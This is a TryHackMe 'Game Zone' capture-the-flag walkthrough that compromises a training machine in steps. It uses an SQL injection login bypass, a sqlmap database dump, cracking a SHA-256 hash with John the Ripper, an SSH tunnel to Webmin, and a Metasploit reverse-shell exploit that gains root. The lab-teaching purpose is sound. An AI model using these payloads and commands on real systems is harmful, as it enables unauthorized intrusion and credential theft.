 ## TryHackMe Game Zone
---

[Link to TryHackMe Room](https://tryhackme.com/room/gamezone)

Task 1: Deploy the vulnerable machine

IP: 10.10.241.186

```
Nmap scan report for 10.10.241.186
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Task 2: Obtain access via SQLi

- SQL is the standard language for storing, editing, and retrieving data in databases. A query can look like so:
- 	SELECT * FROM users WHERE username = :username AND password := password

In the Game Zone machine, when you attempt to login, it will take your inputted values from your username and password, then insert them directly into the query above. If the query finds data, you'll be allowed to login otherwise it will display an error message.

By using a SQL injection: ' or 1=1 -- - , as the username and nothing as the password. I authenticates me.

This directs me to portal.php, I am now authenticated using the command. 


Task 3: Using SQLMap

SQLMap is an automatic SQL injection and database takeover tool. 

So the query packet can be intercepted and saved as request.txt or any file name.

```
$ sqlmap -r  /home/joey/ctf/tryhackme/rooms/game\ zone/sql-injection/request.txt --dbms=mysql --dump               

[22:51:45] [INFO] parsing HTTP request from '/home/joey/ctf/tryhackme/rooms/game zone/sql-injection/request.txt'
[22:51:45] [INFO] testing connection to the target URL
[22:51:45] [INFO] checking if the target is protected by some kind of WAF/IPS                                                     
[22:51:45] [INFO] testing if the target URL content is stable
[22:51:46] [INFO] target URL content is stable
[22:51:46] [INFO] testing if POST parameter 'searchitem' is dynamic        
[22:51:46] [WARNING] POST parameter 'searchitem' does not appear to be dynamic

-- SNIP --
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

[22:58:41] [INFO] table 'db.users' dumped to CSV file '/home/joey/.local/share/sqlmap/output/10.10.241.186/dump/db/users.csv'
[22:58:41] [INFO] fetching columns for table 'post' in database 'db'
[22:58:41] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[22:58:41] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name| description|
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11| Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.|
| 2  | Marvel Ultimate Alliance 3 | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005 | Best game ever|
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[22:58:41] [INFO] table 'db.post' dumped to CSV file '/home/joey/.local/share/sqlmap/output/10.10.241.186/dump/db/post.csv'
[22:58:41] [INFO] fetched data logged to text files under '/home/joey/.local/share/sqlmap/output/10.10.241.186'

[*] ending @ 22:58:41 /2021-11-24/
```

Task 4: Cracking a password with JohnTheRipper

John the Ripper (JTR) is a password cracker. 

This program works by taking a wordlist and hashing it with a specified algorithm, The encoded password is Sha256.
```
$ john password_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
Created directory: /home/joey/.john

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
1g 0:00:00:01 DONE (2021-11-25 00:01) 0.7299g/s 2128Kp/s 2128Kc/s 2128KC/s vimivi..veluca
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed


$ cat john.pot
$SHA256$ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14:videogamer124


$ ssh agent47@10.10.241.186

The authenticity of host '10.10.241.186 (10.10.241.186)' can't be established.
ED25519 key fingerprint is SHA256:CyJgMM67uFKDbNbKyUM0DexcI+LWun63SGLfBvqQcLA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.241.186' (ED25519) to the list of known hosts.
agent47@10.10.241.186's password: 

user.txt
agent47@gamezone:~$ la
.bash_history  .bash_logout  .bashrc  .cache  .profile  user.txt
agent47@gamezone:~$ cat user.txt 
649ac1{REDACTED}
agent47@gamezone:~$ 
```

Task 5: Exposing services with reverse SSH tunnels

Reverse SSH port forwarding specified that the given port on the remote server host is to be forwarded to the given host and port on the local side.

-L is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do ssh -L 9000:imgur.com:80 user@example.com. Goint to localhost:9000 on your machine, will load imgur traffic using your other server. 

-R is a remote tunnel (YOU --> CLIENT). You forward your traffic to other server for others to view. 

```
$ ss
```

This tool is used to investigate sockets running on a host.

```
	$ ss -tulpn
	Netid	State		Recv-Q 	Send-Q	Local Address:Port	Peer Address:Port              
	udp		UNCONN		0		0		*:10000				*:*
	udp		UNCONN		0		0		*:68				*:*      
	tcp		LISTEN		0		80		127.0.0.1:3306		*:*
	tcp		LISTEN		0		128		*:10000				*:*
	tcp		LISTEN		0		128		*:22				*:*
	tcp		LISTEN		0		128		:::80				:::*
	tcp		LISTEN		0		128		:::22				:::*
```

There is an exposed port at 10000. This is inaccessible from the local machine so I can tunnel it back to the local machine with an SSH tunnel.

```
	$ ssh -L 10000:localhost:10000 agent47@10.10.241.186

	$ firefox 10.10.241.186:10000

```

I can login with the agent47 username and password.


Task 6: Privilege Escalation with Metasploit

For this part I needed to use the searchsploit to find relevant exploits.
```	
$ searchsploit webmin 1.580
---------------------------------------------------------------------------
 Exploit Title	|  Path

Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)| unix/remote/21851.rb
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit) | /webapps/47330.rb


$ msfconsole 

search webmin

Matching Modules
================

   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution

$ use exploit/unix/webapp/webmin_show_cgi_exec

$ set RHOSTS 127.0.0.1
$ set LHOST tun0
$ set payload cmd/unix/reverse
$ set SSL false

$ exploit

whoami
root
cd /root/
cat root.txt
a4b945{REDACTED}
```

## Complete

